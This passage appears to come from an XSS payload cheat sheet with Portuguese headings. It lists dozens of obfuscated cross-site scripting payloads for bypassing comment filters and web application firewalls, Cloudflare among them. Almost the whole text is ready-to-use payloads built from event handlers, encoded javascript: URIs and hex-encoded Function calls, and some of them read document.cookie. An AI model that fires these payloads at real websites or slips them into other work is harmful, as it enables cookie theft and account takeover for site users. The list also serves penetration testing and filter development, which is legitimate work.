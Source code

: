     javascript://%250Aalert(1)
    
26 - Bypass de comentarios internos

```html
<!--><svg onload=alert(1)-->
```

# Bypass WAF

1 - Cloudflare

```html
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg/onload={alert`1`}>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

<--`<img/src=` onerror=confirm``> --!>

<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">

<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

'"><img/src/onerror=.1|alert``>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();
```